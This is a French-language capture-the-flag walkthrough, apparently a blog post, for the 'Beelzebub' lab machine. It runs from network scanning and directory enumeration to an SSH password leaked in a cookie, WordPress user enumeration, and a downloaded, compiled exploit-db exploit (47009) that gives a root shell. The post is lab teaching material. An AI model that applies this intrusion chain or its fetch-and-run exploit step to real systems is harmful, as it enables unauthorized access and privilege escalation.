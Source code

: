 ﻿@[TOC](Beelzebub)


 1. `arp-scan -l` :scanner les address ,trouver la machine vulnérable 
 ![l'adress est 192.168.1.101](https://img-blog.csdnimg.cn/direct/ab3a64b7f35f4061a43d14113998d4e2.png#pic_center)

 2. `nmap -sC -sV 192.128.1.101` scanner les portes ,et on peut voir il existe 2 connexion ,22/tcp ssh et 80/tcp http
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/b082821cf6534140950f5c62f89d9cb2.png#pic_center)

 3. Ouvrir la page 192.168.1.101,et vérifier sa resources ,il n'a plus d'info. Du coup ,on prends `dirb 192.168.1.101`pour exécuter un outil de traversée de répertoires sur notre machine vulnérable et voyons ce qui apparaît :
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/14da37877a234649b6e1c9c5eb824430.png#pic_center)



![请添加图片描述](https://img-blog.csdnimg.cn/direct/c6fc0d5b754549438079f63d050646dc.png)

 4.Avec le résultat ,on ouvre la page /index.php, il a dit 'not found',mais quand on vérifie sa resource,on peut trouver l'info utile `<!--My heart was encrypted, "beelzebub" somehow hacked and decoded it.-md5-->`
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/e5b77cc937a94fb78ade0429bd3e3753.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/5a2d6be3107340748d90ddb8c1be56cb.png#pic_center)
6.`echo -n 'beelzebub' | md5sum` :decoder 'beelzzbub' et obtebu`d18e1e22becbd915b45e0e655429d487`
7.Ouvrir la page `http://192.168.1.101/d18e1e22becbd915b45e0e655429d487/`,mais on peut pas le ouvrir ,donc on fais encore trouver ses répertoires avec `dirsearch -u http://192.168.1.101/d18e1e22becbd915b45e0e655429d487/ -e txt html php`
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/1751355849bb4c849e7dcf8c3ee9ef14.png#pic_center)

 8. Ici ,on trouve une nouvelle page `/wp-content/uploads/`;quand on le ouvre ,cliquez sur `Talk TO VALAK`
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/a1353d707366456fad1edfce4f18271c.png#pic_center)

9. On peut voir une boîte de dialogue donc je suppose qu'il y a une requête GET-POST ici,donc on fais la contrôle de web,se concentrer sur Website,et entrer votre nom comme 'lisa'.
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/0dd4d69a07074f07b11de955f02cb3ca.png#pic_center)

10. Cliquez index.php et puis header,vérifiez les infos,dans 'response headers'--'Set-Cookie',il existe deux 'Set--Cookie',le deuxième écrit avec 'Password=M4k3Ad3a1'(C'est le mot de pass de ssh)
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/b816b77cfcf74cf38557bfb44f248802.png#pic_center)

 11. On a également besoin du nom d'utilisateur pour la connexion de ssh,avev l'outil 'wpscan'，scanner le site WordPress spécifié et effectuer l'énumération des utilisateurs, ignorer les redirections principales et forcer l'exécution de la numérisation.`wpscan --url http://192.168.1.101/d18e1e22becbd915b45e0e655429d487/ -e u --ignore-main-redirect --force`
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/c6bbcf1e175843079a4505246638398f.png#pic_center)  
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/6c719327fd6c46a7a3f83abb379760b3.png#pic_center)

 12. On dirait que nous en avons trouvé deux. Nous utiliserons le nom d'utilisateur « krampus » pour notre connexion ssh.`ssh krampus@192.168.1.101` et on a réussi de connecter .Mais on n'a pas privilèges root.
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/49f7babe03a94bde856bc56ddde739a4.png#pic_center)
13.Vérifier tout les documents `ls -all`,et on peut trouver `.bash_history`，On dirait qu'il enregistre les commandes utilisés. On fait `cat .bash_history` et puis dans les résultats ,il est facile de trouver un commande de `'weget https://www.exploit-db.com/downloads/47009'`.
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/2ec732aac8c54317858b3feeb6dc31fe.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/5709e1d31b2e4e24a097f937bc374a9f.png#pic_center)
14.Exécuter `weget https://www.exploit-db.com/downloads/47009`,et `ls`,on peut trouver un CVE 47009 dans la liste,(chercher cve47009,on peut vérifier il est écrit par langue C),donc on renomme 47009 avec `mv 47009 ./cve.c`,compile et exécute .
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/c6329e2a98b941de8f3b49047631af7f.png#pic_center)
15. Réussi d’exécuter ,et on peut voir opening root shell.Avec `whoami`son résultat est 'root',Cela signifie que on a relevé le défi!


